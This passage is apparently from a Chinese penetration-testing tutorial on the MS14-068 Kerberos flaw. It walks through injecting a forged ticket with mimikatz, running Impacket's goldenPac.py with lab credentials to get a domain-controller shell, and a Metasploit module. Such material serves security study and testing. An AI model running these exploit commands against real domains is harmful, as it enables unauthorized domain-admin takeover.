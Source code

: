 ##### 查看注入前的权限

将票据文件复制到Windows Server 2008的mimikatz目录下，然后使用mimikatz注入。

在此之前，可以先检查注入前的权限：

```powershell
net use \\Win-2K5J2NT2O7P\c$
```

如果提升Access is denied，则表明当前权限无法访问域控的C盘共享。

##### 清除内存中的所有票据

使用mimikatz清除：

```powershell
mimkatz "kerberos::purge"
```

##### 注入票据

```powershell
kerberos::ptc "TGT_user1@pentest.com.ccache"
```

##### 验证权限

随后再次验证权限，如无意外应该可以正常访问域控的C盘共享。

#### goldenPac.py

继承在了[Impacket](https://github.com/SecureAuthCorp/impacket)里，这个脚本在examples中。

命令格式如下：

```powershell
python goldenPac.py 域名/域成员用户:密码@域控地址
```

##### 安装Kerberos客户端

Kali中是不包含Kerberos客户端的，需要独立安装：

```powershell
apt-get install krb5-user -y
```

##### 使用PsExec获取域控制器的Shell

```powershell
python goldenPac.py pentest.com/user1:Aa123456\@@Win-2K5J2NT2O7P.pentest.com
```

然而这个脚本是通过PsExec获取Shell的，这会产生大量日志，并且PsExec以及被杀毒软件列为危险文件了，所以，不建议使用这个。

#### MSF中测试

模块名：`auxiliary/admin/kerberos/ms14_068_kerberos_checksum`

设置好四个信息后，直接run后会生成一个`.bin`文件，路径可以在MSF终端中看到。
